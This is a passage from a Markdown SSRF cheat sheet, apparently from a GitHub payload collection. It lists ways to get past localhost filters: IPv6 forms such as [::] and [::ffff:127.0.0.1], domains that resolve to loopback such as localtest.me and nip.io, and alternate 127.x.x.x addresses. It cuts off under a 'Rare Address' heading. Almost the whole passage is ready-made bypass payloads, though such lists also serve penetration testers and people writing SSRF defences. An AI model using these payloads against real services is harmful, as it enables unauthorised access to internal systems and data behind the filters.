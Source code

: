 
### Bypass Localhost with IPv6 Notation

* Using unspecified address in IPv6 `[::]`
    ```powershell
    http://[::]:80/
    ```

* Using IPv6 loopback addres`[0000::1]`
    ```powershell
    http://[0000::1]:80/
    ```

* Using [IPv6/IPv4 Address Embedding](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)
    ```powershell
    http://[0:0:0:0:0:ffff:127.0.0.1]
    http://[::ffff:127.0.0.1]
    ```


### Bypass Localhost with a Domain Redirect

| Domain                       | Redirect to |
|------------------------------|-------------|
| localtest.me                 | `::1`       |
| localh.st                    | `127.0.0.1` |
| spoofed.[BURP_COLLABORATOR]  | `127.0.0.1` |
| spoofed.redacted.oastify.com | `127.0.0.1` |
| company.127.0.0.1.nip.io     | `127.0.0.1` |

The service `nip.io` is awesome for that, it will convert any ip address as a dns.

```powershell
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
```

### Bypass Localhost with CIDR 

The IP range `127.0.0.0/8` in IPv4 is reserved for loopback addresses. 

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

If you try to use any address in this range (127.0.0.2, 127.1.1.1, etc.) in a network, it will still resolve to the local machine


### Bypass Using Rare Address
